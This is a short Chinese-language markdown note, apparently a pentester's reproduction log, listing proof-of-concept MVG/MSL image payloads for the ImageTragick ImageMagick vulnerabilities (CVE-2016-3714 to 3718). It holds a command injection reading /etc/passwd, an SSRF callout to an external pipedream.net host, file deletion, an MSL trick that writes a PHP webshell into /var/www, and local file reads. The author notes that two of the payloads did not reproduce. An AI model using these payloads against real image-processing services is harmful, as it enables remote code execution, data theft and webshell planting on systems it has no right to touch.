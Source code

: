 # 魔图漏洞
## CVE-2016-3714

（The (1) EPHEMERAL, (2) HTTPS, (3) MVG, (4) MSL, (5) TEXT, (6) SHOW, (7) WIN, and (8) PLT coders in ImageMagick before 6.9.3-10 and 7.x before 7.0.1-1 allow remote attackers to execute arbitrary code via shell metacharacters in a crafted image, aka "ImageTragick."）

#### 参考

- https://github.com/ImageTragick/PoCs
- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html
- https://github.com/vulhub/vulhub/blob/master/imagemagick/imagetragick/README.zh-cn.md

#### poc

```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`cat /etc/passwd > /tmp/success`'
pop graphic-context
```

## CVE-2016-3718

#### poc

poc.jpg

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://enav06y2ix9ic.x.pipedream.net)'
pop graphic-context
```

## CVE-2016-3715

#### poc

poc.jpg

```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'ephemeral:/tmp/success'
popgraphic-context
```

下面这2个，3716没有复现成功，3717没有回显，就没有复现了

## CVE-2016-3716

#### poc

利用ImageMagick支持的msl协议，来进行文件的读取和写入。利用这个漏洞，可以将任意文件写为任意文件，比如将图片写为一个.php后缀的webshell。特别说明的是，msl协议是读取一个msl格式的xml文件，并根据其内容执行一些操作：

file_move.mvg
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'msl:/tmp/msl.txt'
popgraphic-context
```
/tmp/msl.txt
```
<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="/tmp/image.gif" />
<write filename="/var/www/shell.php" />
</image>
```

## CVE-2016-3717

可以造成本地文件读取漏洞

#### poc

poc.jpg

```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'label:@/etc/hosts'
pop graphic-context
```